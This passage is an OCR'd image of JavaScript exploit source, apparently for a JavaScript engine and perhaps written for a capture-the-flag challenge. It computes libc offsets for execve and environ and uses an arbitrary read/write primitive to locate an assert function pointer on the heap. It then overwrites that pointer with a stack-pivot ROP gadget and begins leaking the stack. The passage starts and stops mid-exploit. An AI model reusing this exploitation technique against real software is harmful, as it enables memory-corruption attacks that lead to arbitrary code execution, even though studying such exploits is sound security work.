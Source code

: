 ```javascript
let libc_base = libc_free - 0x97740;
let libc_execve = libc_base + 0xdddb0;
let environ_ptr = libc_base + 0x1e45a0;
// 0x000000000005e735 : add rsp, 0x450 ; pop rbp ; ret
let stack_pivot_gadget = libc_base + 0x5e735;
/*
// local version
let libc_base = libc_free - 0x9d850;
let libc_execve = libc_base + 0xe62f0;
let environ_ptr = libc_base + 0x1ef2e0;
// 0x000000000005e735 : add rsp, 0x450 ; pop rbp ; ret
let stack_pivot_gadget = libc_base + 0x5e735;
*/
print("[*] LIBC: " + libc_base.toString(16));

// Find function pointer of assert
let assert_ptr = pie_base + 0xa9aa;
let heap_base = pie_base + 0x6D188;
var address = heap_base;
var found = false;


for (var i = 0; i < 0x8000; i++) {
    address = heap_base + i;
    idx = old_idx;
    haystack[idx++] = shift(address, 0) & 0xFF;
    haystack[idx++] = shift(address, 8) & 0xFF;
    haystack[idx++] = shift(address, 16) & 0xFF;
    haystack[idx++] = shift(address, 24) & 0xFF;
    haystack[idx++] = shift(address, 32) & 0xFF;
    haystack[idx++] = shift(address, 40) & 0xFF;
    haystack[idx++] = 0x00;
    haystack[idx++] = 0x00;
    let rv = parseInt(f64_to_hex(arw[0]), 16);
    if (rv == assert_ptr) {
        found = true;
        print("[+] found assert pointer at: " + address.toString(16));
        break;
    }
}

if (!found) {
    print("[-] Exploit failed: could not find createRealm pointer");
    throw "fail";
}

// now overwrite assert pointer
idx = old_idx;
haystack[idx++] = shift(address, 0) & 0xFF;
haystack[idx++] = shift(address, 8) & 0xFF;
haystack[idx++] = shift(address, 16) & 0xFF;
haystack[idx++] = shift(address, 24) & 0xFF;
haystack[idx++] = shift(address, 32) & 0xFF;
haystack[idx++] = shift(address, 40) & 0xFF;
haystack[idx++] = 0x00;
haystack[idx++] = 0x00;
arw[0] = num_to_f64(stack_pivot_gadget);

// leak stack from environ
idx = old_idx;
haystack[idx++] = shift(environ_ptr, 0) & 0xFF;
haystack[idx++] = shift(environ_ptr, 8) & 0xFF;
haystack[idx++] = shift(environ_ptr, 16) & 0xFF;
```